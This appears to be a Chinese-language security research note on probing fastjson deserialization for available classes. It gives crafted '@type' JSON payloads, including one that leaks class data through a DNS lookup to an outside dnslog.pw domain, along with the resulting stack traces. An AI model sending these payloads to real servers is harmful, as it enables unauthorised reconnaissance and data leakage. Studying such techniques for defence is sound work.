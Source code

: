 ## Ref
- Hacking JSON by 浅蓝 at KCon2022

### class探测方法一
```json
{"@type":"java.lang.Character"{"@type":"java.lang.Class",
"val":"groovy.lang.GroovyShell"}
```
和
```json
{"@type":"java.lang.Character"{"@type":"java.lang.Class",
"val":"groovy.lang.GroovyShell1"}
```

![image](https://user-images.githubusercontent.com/30398606/187075915-8aba39ac-f013-42dd-88df-55c002b1fd48.png)

![image](https://user-images.githubusercontent.com/30398606/187075936-ee5058b5-b0f1-488f-8a4f-fab9eb1f31c4.png)


### class探测方法二
```json
{"@type":"java.lang.Class",
"val":"groovy.lang.GroovyShell"}
```
和
```json
{"@type":"java.lang.Class",
"val":"groovy.lang.GroovyShell1"}
```

![image](https://user-images.githubusercontent.com/30398606/187076001-59d835c5-b43c-4178-84dc-23bed90d2ff9.png)

![image](https://user-images.githubusercontent.com/30398606/187076020-5343e930-4c27-4b43-804b-caa2b99db350.png)

总之不存在的类就会报空指针异常，或者返回null的逻辑。

### class探测方法三
通过`java.util.Locale`类的language和country字段的连接，带出dnslog，不过这个域名里有大括号，不是每个dnslog服务都支持的。
用这个：http://dnslog.pw/dns/

```json
{"@type":"java.net.Inet4Address",
"val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"java.util.Locale","language":{"@type":"java.lang.String"{1:{"@type":"java.lang.Class","val":"java.io.InputStream"}},"country":"x.fastjson.4wjna9kk.dnslog.pw"}}}
```
抛出异常`com.alibaba.fastjson.JSONException: deserialize inet adress error`：调用栈
```java
java.net.UnknownHostException: {"1":"java.io.inputstream"}_X.FASTJSON.4WJNA9KK.DNSLOG.PW
	at java.net.Inet6AddressImpl.lookupAllHostAddr(Native Method) ~[na:1.8.0_202]
	at java.net.InetAddress$2.lookupAllHostAddr(InetAddress.java:929) ~[na:1.8.0_202]
	at java.net.InetAddress.getAddressesFromNameService(InetAddress.java:1324) ~[na:1.8.0_202]
	at java.net.InetAddress.getAllByName0(InetAddress.java:1277) ~[na:1.8.0_202]
	at java.net.InetAddress.getAllByName(InetAddress.java:1193) ~[na:1.8.0_202]
	at java.net.InetAddress.getAllByName(InetAddress.java:1127) ~[na:1.8.0_202]
	at java.net.InetAddress.getByName(InetAddress.java:1077) ~[na:1.8.0_202]
	at com.alibaba.fastjson.serializer.MiscCodec.deserialze(MiscCodec.java:335) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:395) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1401) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1367) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.JSON.parse(JSON.java:183) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.JSON.parse(JSON.java:193) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.JSON.parse(JSON.java:149) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.JSON.parseObject(JSON.java:254) ~[fastjson-1.2.70.jar:na]
```
但是碰到一个目标在这三个方法都报错：
```java
JSON parse error: type not match. java.lang.Character -> com.xxx.yyy.security.service.dto.AuthUserDto; nested exception is com.alibaba.fastjson.JSONException: type not match. java.lang.Character -> com.xxx.yyy.security.service.dto.AuthUserDto
```


